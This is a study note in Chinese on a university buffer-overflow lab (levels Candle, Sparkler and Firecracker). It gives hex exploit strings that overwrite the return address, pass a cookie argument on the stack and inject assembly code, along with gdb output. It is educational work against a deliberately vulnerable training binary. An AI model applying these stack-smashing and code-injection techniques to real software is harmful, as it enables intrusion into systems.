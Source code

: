 # buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image1.png)

## Level 1: Sparkler (10 pts)
同level_0的要求，这次需要跳转到fizz函数内
fizz函数源码
```
void fizz(int val)
{
if (val == cookie) {
printf("Fizz!: You called fizz(0x%x)\n", val);
validate(1);
} else
printf("Misfire: You called fizz(0x%x)\n", val);
exit(0);
}
```
这里有个要求是需要让传参等于cookie，因为是32位的程序，所以是栈传参
并且在函数调用时先压入参数再压入返回地址，构造如下内容完成实验
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b8 da 18 28
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image2.png)

## Level 2: Firecracker (15 pts)
题目要求和上面的一样，跳转到bang函数上
查看bang函数源码
```
int global_value = 0;
void bang(int val)
{
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
可以看到需要让全局变量global_value的值和cookie值相同，并且writeup中的提示让我们进行code-injection
与attack-lab的做法一样，通过注入代码后控制eip跳转到我们注入代码的位置
构造如下汇编代码令global_value的值等于cookie
```
mov    $0x2818dab8, %eax //eax = cookie
mov    %eax, 0x0804D100  //0x0804D100 --> [global_value_address] = cookie
push   $0x08048c9d       //bang_address
ret

```
使用gcc将其转变为
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3
```
通过gdb调试获得注入代码的位置
```
pwndbg> x/20gx $esp
0x556837c8 <_reserved+1038280>:	0xf7fb6404556837d8	0xbf153c007f87426a
0x556837d8 <_reserved+1038296>:	0x2504892818dab8b8	0x048c9d680804d100
0x556837e8 <_reserved+1038312>:	0x000000000000c308	0x0000000000000000
```
可以看到注入位置在0x556837d8处，然后我们就可以构造hex完成本题了
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image3.png)
